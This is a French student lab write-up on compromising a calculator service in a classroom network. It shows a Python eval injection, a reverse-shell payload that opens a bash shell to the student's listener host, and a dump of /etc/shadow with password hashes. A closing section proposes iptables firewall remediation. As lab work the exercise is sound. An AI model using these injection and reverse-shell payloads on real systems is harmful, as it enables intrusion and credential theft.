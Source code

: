 # 1. Reconnaissance

🌞 Déterminer

🦈[voir capture WIRESHARK](./Wireshark/TP5_Determiner.pcapng)


🌞 Scanner le réseau

trouvez une ou plusieurs machines qui héberge une app sur ce port

🦈[voir capture WIRESHARK](./Wireshark/p5_nmap.pcapng)


🌞 Connectez-vous au serveur

```
tom@Tom:~/Documents/B2-Reseau$ /bin/python3 /home/tom/Documents/B2-Reseau/tp5/client.py

```
C'est une calculattrice 

🌞 Injecter du code serveur

```

    userMessage = "__import__('os').popen('ls').read()"

```
```
tom@Tom:~/Documents/B2-Reseau$ /bin/python3 /home/tom/Documents/B2-Reseau/tp5/client.py
'afs\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nva
```
# 3. Reverse shell


🌞 Obtenez un reverse shell sur le serveur

```
PS C:\Users\tomma\Ynov\B2> ncat -lvp 5555
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.33.66.78.
Ncat: Connection from 10.33.66.78:54046.
bash: cannot set terminal process group (1480): Inappropriate ioctl for device
bash: no job control in this shell
[root@localhost /]#
```
```
PS C:\Users\tomma> ncat 10.33.66.78 13339
g
Hello__import__('os').popen('bash -i >& /dev/tcp/10.33.73.72/5555 0>&1').read()
```
🌞 Pwn
```
[root@localhost etc]# cat shadow
cat shadow
root:$6$.8fzl//9C0M819BS$Sw1mrG49Md8cyNUn0Ai0vlthhzuSZpJ/XVfersVmgXDSBrTVchneIWHYHnT3mC/NutmPS03TneWAHihO0NXrj1::0:99999:7:::
bin:*:19820:0:99999:7:::
daemon:*:19820:0:99999:7:::
adm:*:19820:0:99999:7:::
lp:*:19820:0:99999:7:::
sync:*:19820:0:99999:7:::
shutdown:*:19820:0:99999:7:::
halt:*:19820:0:99999:7:::
mail:*:19820:0:99999:7:::
operator:*:19820:0:99999:7:::
games:*:19820:0:99999:7:::
ftp:*:19820:0:99999:7:::
nobody:*:19820:0:99999:7:::
systemd-coredump:!!:20010::::::
dbus:!!:20010::::::
tss:!!:20010::::::
sssd:!!:20010::::::
sshd:!!:20010::::::
chrony:!!:20010::::::
it4:$6$HTSBHGoZflJxXu9u$i54higNbS5p2zVOLWP6P33D39SyWRrEAOjzh97xRa15KzJU3jZfBi/XIPY3FKDoYoSvo1FrirBwNcgmEVpaPK/::0:99999:7:::
tcpdump:!!:20010::::::
```
```
[root@localhost etc]# cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/:/usr/sbin/nologin
sssd:x:998:996:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/usr/sbin/nologin
chrony:x:997:995:chrony system user:/var/lib/chrony:/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
```
# 4. Bonus : DOS
⭐ BONUS : DOS l'application
```

```
# II. Remédiation
 

🌞 Proposer une remédiation système
```
Mettre en place un pare-feu pour bloquer les ports entrants non nécessaires, en autorisant uniquement ceux essentiels au fonctionnement des services.

- **Port 22** : Service SSH qui permet de se connecter.
- **Port 13337** : Le port qui fait tourner le serveur.

```


🌞 Proposer une remédiation système
```
iptables -t filter -P INPUT DROP; iptables -A INPUT -p tcp --dport 22 -j ACCEPT; iptables -A INPUT -p tcp --dport 13337 -j ACCEPT

```
```
Avec cette commande seul les connexions les port 22 et 13337 sont autorisé. Bloquer ses ports réduit les chances de découvrir des services vulnérables qui pourraient fonctionner sur d'autres ports.
```


